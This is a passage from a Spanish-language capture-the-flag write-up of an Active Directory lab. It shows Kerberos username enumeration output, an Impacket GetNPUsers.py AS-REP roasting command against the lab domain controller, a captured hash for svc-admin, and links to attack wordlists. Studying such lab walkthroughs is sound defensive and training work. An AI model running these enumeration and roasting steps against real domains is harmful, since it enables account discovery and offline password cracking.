 ```bash
2025/04/29 20:04:38 >  [+] VALID USERNAME:       Robin@spookysec.local
2025/04/29 20:06:35 >  [+] VALID USERNAME:       Administrator@spookysec.local
2025/04/29 20:10:35 >  [+] VALID USERNAME:       Darkstar@spookysec.local
2025/04/29 20:11:51 >  [+] VALID USERNAME:       Paradox@spookysec.local
2025/04/29 20:16:10 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
2025/04/29 20:17:23 >  [+] VALID USERNAME:       ori@spookysec.local
2025/04/29 20:19:40 >  [+] VALID USERNAME:       ROBIN@spookysec.local
```
### Resultado
Identificamos usuarios válidos como `svc-admin`, `backup`, `administrator`, `robin`, `james`, `paradox`, entre otros.

---

## Parte 3: AS-REP Roasting
### Teoría
Si un usuario no requiere preautenticación, el KDC entrega un ticket cifrado con el hash NTLM del usuario. Esto permite realizar **ataques offline** sin generar eventos de seguridad.
### Herramienta
```bash
GetNPUsers.py spookysec.local/ -dc-ip 10.10.7.146 -usersfile valid_users.txt -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/home/kali/.local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User james doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:7cf7087ba77075e5b7a520985acb9585$8f69dd9c916fbd25ce6dd68c5ea34d70efe309f048e566db143aa3446818500158fcfb430dbab28c2960050f95ed7a542751d3c62d229378627994bf1c0a711442ff094d8eedf18472bd46df9af6d3e2789adb5bad4b30743b84b465c2958410fe5e28a34206f13d04b0f541eb6f03960040865efeee4f04411276d7f5042b9285beaa7f1cb686fad613fa354ca54190169b4fdc9cd7c3fc6fd16910e12f9ed6a024eea5444961fe213a1313b56e3c654b591cd3c4c30238df59f9de5c2bfd8c8fd090d00613e6bd39c213b49a31f31fc11e4a2000773104e06cda3ce07a4bb375446830e27569b23b5910875442111f66e8
[-] User robin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox doesn't have UF_DONT_REQUIRE_PREAUTH set
```
### Archivos requeridos
- Lista de usuarios válidos:  
    [userlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt)
    
- Lista de contraseñas (para etapas posteriores):  
    [passwordlist.txt](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt)
### Resultado
El usuario `svc-admin` no requería preautenticación. Se extrajo el hash AS-REP para crackeo offline.

---